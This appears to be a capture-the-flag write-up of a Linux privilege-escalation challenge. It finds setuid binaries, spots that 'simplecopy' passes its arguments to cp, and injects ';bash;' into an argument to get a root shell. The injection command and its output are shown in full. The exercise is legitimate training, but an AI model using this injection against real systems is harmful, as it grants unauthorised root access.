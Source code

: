 ## Objective
Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

## Solution
- Find some binary which has setuid bit set
```
elf@c0cf78581afd:~$ find / -perm -u=s -type f 2> /dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```
- We find an unusual binary with suid bit set
```
elf@c0cf78581afd:~$ strings /usr/bin/simplecopy 
...
setuid
exit
....
Usage: %s <source> <destination>
cp %s %s
```
- We perform a combination of command and code injection to get a shell as root
```
elf@24797ae9021c:/usr/bin$ ./simplecopy '/etc/passwd' ';bash;'
```
- We navigate into the /root 
```
root@24797ae9021c:/usr/bin# cd /root
root@24797ae9021c:/root# ls -la
total 620
drwx------ 1 root root   4096 Dec  2 22:17 .
drwxr-xr-x 1 root root   4096 Jan  2 02:00 ..
-rw-r--r-- 1 root root   3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root    161 Dec  5  2019 .profile
-rws------ 1 root root 612560 Nov  9 21:29 runmetoanswer
```
- We make the binary executable
```
root@24797ae9021c:/root# chmod +x runmetoanswer 
root@24797ae9021c:/root# ls
runmetoanswer
root@24797ae9021c:/root# ./runmetoanswer 
```
- Flag for the Win!
```
root@24797ae9021c:/root# ./runmetoanswer 
Who delivers Christmas presents?

> Santa
Your answer: Santa

Checking....
Sorry, that answer is incorrect. Please try again!


root@24797ae9021c:/root# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```
